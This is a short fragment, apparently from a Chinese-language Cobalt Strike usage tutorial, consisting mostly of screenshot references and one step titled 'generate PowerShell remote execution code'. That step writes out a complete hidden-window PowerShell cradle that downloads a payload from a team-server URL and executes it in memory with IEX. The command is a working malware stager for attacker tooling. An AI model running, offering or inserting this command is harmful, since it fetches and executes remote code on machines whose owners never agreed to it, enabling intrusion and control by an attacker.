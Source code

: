 <img src="CobaltStrike的使用教程/image-20221001224449443.png" alt="image-20221001224449443" style="zoom:67%;" />	



生成Power Shell远程执行代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`

![动画](CobaltStrike的使用教程/动画-16646361660073.gif)
